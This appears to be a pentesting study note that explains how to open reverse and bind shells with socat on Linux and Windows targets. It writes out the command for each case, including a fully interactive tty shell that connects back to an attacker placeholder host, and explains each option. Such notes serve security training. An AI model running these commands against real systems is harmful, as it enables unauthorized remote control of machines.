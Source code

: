 ## Introduction
- The easiest way to think about socat is as a connector between two points.

#### Reverse Shells 
**syntax**
Here's the syntax for a basic reverse shell listener in socat:
```python
socat TCP-L:<port> -
```
- As always with socat, this is taking two points (a listening port, and standard input) and connecting them together.
- The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

**On Windows we would use this command to connect back:**
```python
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

**This is the equivalent command for a Linux Target:**
```python
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

#### Bind Shells
**On a Linux target start listener use the following command:**
```python
socat TCP-L:<PORT> EXEC:"bash -li"
```
**Connect to bind shell use the following command:
```python
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

**On a Windows target we would use this command for our listener:**
```python
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
`pipes`: The `pipes` argument enables the usage of pipes to establish bidirectional communication between `socat` and `powershell.exe`. It allows `socat` to act as an intermediary, forwarding data between the TCP connection and the standard input/output (stdin/stdout) of the `powershell.exe` process.

Without the `pipes` argument, `socat` would only be able to execute `powershell.exe` and forward data from the TCP connection to the process's standard input, but it wouldn't be able to capture the process's standard output and send it back to the TCP client. Consequently, any output from `powershell.exe` would be lost, making it less useful for interactive tasks.

**Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.**
```python
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

**a fully stable Linux tty reverse shell**
This will only work when the target is Linux, but is _significantly_ more stable. use the below command on attacking machine
**Syntax** - 
```python
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
- As usual, we're connecting two points together. In this case those points are a listening port, and a file.
- **Let's break down the first part of the command step by step:**
	1. `socat`: This is the command itself, used for creating bidirectional data streams between two endpoints.
    
	2. `TCP-L:<port>`: This part specifies that socat should listen on a specific `<port>` for incoming TCP connections. It acts as a listener, waiting for someone to connect to this port.
    
	3. `FILE:`: This part tells socat that the endpoint it will be connecting to is a file.
    
	4. `` `tty` ``: The backticks ( ) are used to execute the `tty` command, which stands for "teletype." It is used to get the name of the terminal file connected to the current process. In simple terms, it identifies the terminal you are currently using.
    
	5. `raw,echo=0`: These are options that modify how the terminal is handled. `raw` mode means that data is sent directly from the terminal to the connected endpoint without any processing. `echo=0` means that the terminal should not display (echo) the characters you type back to you. This setting is useful for creating an interactive shell because otherwise, you would see duplicate characters when typing.
In summary, the first part of the command sets up a listener on a specified `<port>`. When someone connects to this port, socat takes the data from the terminal you are using (TTY) and sends it to the connected endpoint.
It also ensures that the terminal behaves appropriately for an interactive shell, allowing you to interact with the remote system smoothly and without character duplication. This is similar to using the `Ctrl + Z, stty raw -echo; fg` trick with a netcat shell but with additional stability and better integration with the terminal.

**What if the target doesn't have socat installed?**
Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.
**Command** - 
```python
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
The first part is easy -- we're linking up with the listener running on our own machine.
The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- `pty`: This tells socat to allocate a pseudo-terminal (pty) for the executed shell. This is necessary for interactive shells to work correctly.
    
- `stderr`: This specifies that the standard error (stderr) of the executed command should be redirected to the socket. This ensures that any error messages from the shell are also sent back to the attacker.
    
- `sigint`: This option forwards the interrupt signal (SIGINT) to the executed process. It allows the attacker to send an interrupt signal to the remote shell, simulating pressing Ctrl+C, which is useful for terminating commands or processes running on the target.
    
- `setsid`: This option makes the executed command run in a new session, which can be useful for detaching it from the controlling terminal.
    
- `sane`: This option sets the terminal to a "sane" state, which ensures that the terminal settings are appropriate for an interactive shell session.
In summary, the second socat command creates a reverse shell that connects back to the attacker's machine. When the connection is established, it launches an interactive bash shell on the target machine, allowing the attacker to execute commands and interact with the remote system as if they were directly using a terminal on that machine.

#### Below demonstration to the above commands
- As normal, on the left we have a listener running on our local attacking machine.
- on the right we have a simulation of a compromised target, running with a non-interactive shell.
- Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:
![[shells7.png]]
Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH